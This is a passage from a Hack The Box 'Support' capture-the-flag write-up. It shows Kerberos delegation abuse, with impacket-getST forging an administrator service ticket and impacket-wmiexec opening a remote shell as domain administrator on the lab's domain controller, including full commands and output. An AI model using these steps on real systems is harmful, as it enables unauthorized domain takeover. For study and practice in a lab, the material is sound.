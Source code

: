 **Now, we can start to impersonate to get a ticket.**

- Before impersonation, please add `dc.support.htb` to `/etc/hosts`:

```
10.10.11.174 support.htb dc.support.htb
```

- Generate a ticket via `impacket-getST`:

```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# impacket-getST support.htb/fakeuser:fakepassword -dc-ip $RHOSTS -impersonate administrator -spn www/dc.support.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]   Requesting S4U2self
[*]   Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

- Once the ticket is generated, we can connect to the machine via `impacket-wmiexec`:

**Specify which ticket should we use:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# export KRB5CCNAME=administrator.ccache
```

**connect to the machine via `impacket-wmiexec`:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
support\administrator

C:\>ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc
   Primary Dns Suffix  . . . . . . . : support.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : support.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-B2-AE
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.11.174(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```
